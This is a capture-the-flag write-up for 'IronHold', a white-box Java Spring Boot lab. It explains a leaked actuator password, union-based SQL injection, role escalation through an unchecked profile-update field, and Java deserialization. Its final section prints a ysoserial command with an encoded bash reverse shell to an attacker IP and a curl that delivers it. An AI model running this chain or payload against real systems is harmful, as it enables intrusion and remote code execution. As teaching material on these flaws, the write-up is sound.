





+++
title = "IronHold (Hard)"
date = "2026-08-29"
author = "berzrk"
description = "IronHold: White-box Java Spring Challenge"
+++

# Summary

We are provided with the source code for the IronHold inmate-management platform and
a running instance based on this code. The platform is built with **Java Spring Boot**.

We start by getting credentials to login from a **misconfigured public
endpoint**. With this credential, we can abuse an Union-based SQL
Injection to read a database that is inaccessible from anywhere else.

We can then escalate our account to **warden** (highest privilege) by abusing an
**Insecure Design** in the update profile endpoint.

Finally, with the highest privilege, we can make use of a **deserialization attack**
to achieve **RCE**.

> This challenge was interesting because I myself don't have much programming
> experience with Java and even less with Spring Framework. But I do have
> experience with back-end and API development in Python (with FastAPI) and
> some understanding of Java design practices (Controller, Repository, Model pattern)

# Flag 1

I start by accessing the webpage and I am redirected to a login page.
The `/login` endpoint code looks like this


@PostMapping("/login")
public String login(@RequestParam String username,
                        @RequestParam String password,
                        HttpSession session,
                        Model model) {
    Staff staff = staffRepository.findByUsername(username);
    if (staff == null || !passwordEncoder.matches(password, staff.getPassword())) {
        model.addAttribute("error", "Invalid staff credentials.");
        return "login";
    }
    session.setAttribute(SessionUtil.USERNAME_KEY, staff.getUsername());
    return "redirect:/dashboard";
}


I immediately notice that it is vulnerable to a **timing attack**. But its not the
expected approach in this case. Except for that, there is no other flaw that
would allow a login.

I find an interesting file that shows which endpoints are protected by a login


@Configuration
public class WebMvcConfig implements WebMvcConfigurer {
    --snip--
    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(authInterceptor)
                .addPathPatterns("/**")
                .excludePathPatterns(
                        "/", "/login", "/logout", "/about", "/status",
                        "/css/**", "/error", "/actuator/**");

        registry.addInterceptor(wardenInterceptor)
                .addPathPatterns("/admin/**");
    }
}


The `/actuator/` endpoint looks unusual to me. Searching about it, it
is apparently an endpoint to monitor your application ([docs](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html)). And it leaks a lot of valuable information
that **should not be public**.


Looking around all the available endpoints, I see an interesting one: `/env`.
According to the docs, this endpoint exposes `ConfigurableEnvironment` properties.

For us, this leaks a variable named `KIOSK_PW` with a password as value.



With this credential, I attempt to login with `kiosk` and the password found.
And it works.

We get a login and our first flag.



# Flag 2


I noticed that on the  `inmates` page we have a search bar. And on the rest of the pages, I don't see
anything too useful. And so I go back to exploring the code again.

After searching for `flag`, I find this method:


private void seedCaseFile() {
    jdbcTemplate.update(
            "INSERT INTO case_files (case_number, title, summary, status, opened_at) VALUES (?, ?, ?, ?, ?)",
            "IA-2024-007", "Internal Affairs Review", flag2, "OPEN",
            LocalDateTime.now().minusMonths(3));
}


We find a table `case_files` that interestingly is not mentioned anywhere else.
That means there are no endpoints that manipulate this table directly.

Also looking more about the database connection, I discover that there are
two methods for accessing the database: one for **unprivileged user** and
another for the **administrator**. This is really interesting, because
there is no way for our current account to access the most important tables
in the database.


/**
 * Data-access wiring for Ironhold.
 *
 * The application talks to the database through two JdbcTemplates. The primary
 * one runs under the application account and is used by the seed loader and any
 * internal maintenance query. The public inmate lookup runs under a separate,
 * reduced-privilege account ("ironhold_lookup") that can only read the records
 * that feature is meant to serve, so a floor-facing search can never reach staff
 * credentials, internal notices, or anything on the host filesystem.
 */
@Configuration
public class DataAccessConfig {..}


But we need to access the `case_files` table to read the flag 2. Is there
permission for this? We actually do have this permission

```java {hl_lines=9}
private void provisionLookupAccount() {
    // The inmate lookup connects under a reduced-privilege account rather than
    // the application account. It is granted read access only to the record
    // tables that feature serves, so it cannot reach staff credentials,
    // internal notices, or host files even if a query is malformed.
    jdbcTemplate.execute("CREATE USER IF NOT EXISTS " + DataAccessConfig.LOOKUP_USER
            + " PASSWORD '" + DataAccessConfig.LOOKUP_PASSWORD + "'");
    jdbcTemplate.execute("GRANT SELECT ON inmates TO " + DataAccessConfig.LOOKUP_USER);
    jdbcTemplate.execute("GRANT SELECT ON case_files TO " + DataAccessConfig.LOOKUP_USER);
}
```

Now we need to find a way to interact with the `table`. And this is where the search
bar comes into use.

Looking at the code that implements the search endpoint, we see that it does not
use parameterized queries.

```java {hl_lines=7}
@GetMapping("/inmates/search")
public String search(@RequestParam(required = false) String q, Model model) {
    List<Map<String, Object>> results;
    if (q == null || q.isBlank()) {
        results = jdbcTemplate.queryForList("SELECT id, name, block FROM inmates");
    } else {
        String sql = "SELECT id, name, block FROM inmates WHERE name = '" + q + "'";
        results = jdbcTemplate.queryForList(sql);
    }
    model.addAttribute("results", results);
    model.addAttribute("query", q == null ? "" : q);
    return "inmate-search";
}
```

Since there is already an SQL query, we need to make use of **Union-based SQL Injection**
to be able to insert our own query.

And since we have the source code this is a bit easier since we can skip the part where
we need to find the exact number of columns.



# Flag 3

Following the same approach from flag 2, we can search the code to where the flag 3
is located at. And its behind a page accessible only by admins/warden.

We know from before that these admin endpoints are protected by the `wardenInterceptor`.
And I try to find if there is any flaw in the authorization check, but there is none.


@Component
public class WardenInterceptor implements HandlerInterceptor {
    --snip--
    Staff staff = staffRepository.findByUsername(username);
    if (staff == null || !staff.isWarden()) {
        response.sendError(HttpServletResponse.SC_FORBIDDEN, "Warden clearance required");
        return false;
    }
    return true;
}


But we see how the checking is done, the `isWarden()` method returns a `bool`
if the user's role equals to `warden` (case-insensitive). In our case, our
role is `officer`.

There is an endpoint used to update our own profile. On the webpage we
are only allowed to update our full name, email and badge number.

But... on the code-side it is actually also updating our role.

```java {hl_lines="10 11 12"}
@PostMapping("/profile/update")
public String update(@ModelAttribute Staff staff, HttpSession session) {
    Staff current = staffRepository.findByUsername(SessionUtil.currentUsername(session));

    current.setFullName(staff.getFullName());
    current.setEmail(staff.getEmail());
    if (staff.getBadgeNumber() != null && !staff.getBadgeNumber().isBlank()) {
        current.setBadgeNumber(staff.getBadgeNumber());
    }
    if (staff.getRole() != null && !staff.getRole().isBlank()) {
        current.setRole(staff.getRole());
    }

    staffRepository.save(current);
    return "redirect:/profile";
}
```

We are **explicitly** allowed to change to **ANY** role we want as long as we pass
the role. There is no *authorization check* for permission or if the
role even exists.

We can simply add `role=Warden` to the `POST` body and we change our role



# Flag 4

We are now able to access the `Admin Panel`. There is an endpoint that allows us
to upload a file. And looking more in-depth at the code, I see that it is vulnerable
to a **deserialization attack**.

```java {hl_lines="7"}
@PostMapping(value = "/admin/import", consumes = MediaType.ALL_VALUE)
@ResponseBody
public ResponseEntity<String> importData(@RequestBody String body) {
    try {
        byte[] decoded = Base64.getDecoder().decode(body.trim());
        try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decoded))) {
            Object restored = ois.readObject();
            return ResponseEntity.ok("Batch accepted: " + restored.getClass().getSimpleName());
        }
    }
    --snip--
}
```

As seen on this [page](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#detect), the `ObjectInputStream.readObject()` is vulnerable to deserialization.

Now we just need to craft our payload to get a `shell`. I used the [ysoserial](https://github.com/frohoff/ysoserial) tool to craft
the payload

```bash
# I had to add these options
java --add-opens java.base/java.util=ALL-UNNAMED \
     --add-opens java.base/java.lang=ALL-UNNAMED \
     --add-opens java.base/java.lang.reflect=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections6 \
    "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzMC4xMzIvOTk5OSAwPiYx}|{base64,-d}|bash" > payload
# The encoded string is just: bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

# Encode as the endpoint read encoded data
base64 -w0 payload > encoded

# Send the payload
curl http://10.65.145.165:8080/admin/import -v -b "JSESSIONID=C3259EAD10E109D3D87ADC95CAC8BA82" -H "Content-Type: text/plain" --data-binary @encoded

# Get a shell
```


